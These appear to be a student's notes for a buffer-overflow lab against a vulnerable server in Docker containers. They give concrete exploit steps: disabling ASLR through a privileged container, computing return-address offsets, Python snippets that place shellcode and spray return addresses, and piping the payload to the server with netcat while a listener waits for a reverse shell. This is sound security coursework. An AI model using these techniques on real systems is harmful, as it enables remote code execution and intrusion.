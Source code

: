 # 9 $-$ Buffer Overflow
## Notes
- Server is listening on port 9090
---

# Task 1 $-$ Get Familiar with the Shellcode
- Create a temporaneous container
- inside it:
  - install needed stuff:
    - `apt update && apt upgrade && apt install -y build-essential gcc-multilib python3`
  - change the python script with whatever command you want
    - add the command to remove a file, like `rm -f file`
    - create the file you want the script to remove: `touch file`
  - run the python `shellcode_{32/64}.py`
    - `./shellcode_64.py`
  - run `make`
  - run `./a64.out`
  - observe the result
- (may prepare a Dockerfile and a docker-compose.yml ad hoc to automatize)

--- 

# Task 2 $-$ Level-1 Attack
- disable ASLR in the vm running docker 
  ```bash
  docker run -it --rm --privileged --pid=host justincormack/nsenter1
  > sysctl kernel.randomize_va_space=0
  ```
- connect to a container which is not the "..5"
- from here
  - run `echo hello | nc 10.9.0.5 9090` to get frame pointer and buffer's addresses:
    ```
    Frame Pointer (ebp) inside bof():  0xffb84758
    Buffer's address inside bof():     0xffb846e8
    ```
- (not useful for the task) create file of 517 bytes size: `fallocate -l 517 file`

## 2.2 Writing Exploit Code and Launching Attack
- put shellcode at the end of the buffer `content[517 - len(shellcode):] = shellcode`
- new return address is ebp+8
  - after the original ret address
- offset is difference between ebp and buffer addresses, +4
  - there you need to put the return addr
- launch the script to obatin the `badfile`
- listen on a new shell from the attacker `nc -lnv 7070`
- from another shell in the attacker launch the badfile to the victim `cat badfile | nc 10.9.0.6 9090`
---
# Task 3 $-$ Level-2 Attack
- just know the buffer address
- still put shellcode at the end
- ret address now is buffer addr + max size of buffer (300 as stated in the readme)
  - `ret    = 0x408000c8 + 300`
- then since we don't know where to exactly put the address we fill the rest of the buffer from 0 to 50*4 hoping ro overwrite the correct location sooner or later
  ```python
  for offset in range(50):
    content[offset*4:offset*4 + 4] = (ret).to_bytes(4,byteorder='little') 
  ```
- and that's it
---
# Task 4 $-$ Level-3 Attack
- 64 bit
- this time we put the shellcode close to the start of the buffer
  ```python
  start = 40
  content[start:start+len(shellcode)] = shellcode
  ```
- then the return address is the buffer address (since we put the shellcode at the beginning rather than after the original ret address)
- the offset is the difference between the addresses printed by the server, +8 (since 64bit)
---
# Task 5 $-$ Level-4 Attack
- here we have smaller buffer but we exploit the dummy function offering us a 1000 bytes buffer
- we put shellcode at the end `content[517 - len(shellcode):] = shellcode`
- we add 1200 bytes to ebp `ret = <ebp address> + 1200`
- offset still difference between values printed by server, +8: `offset = 96 + 8`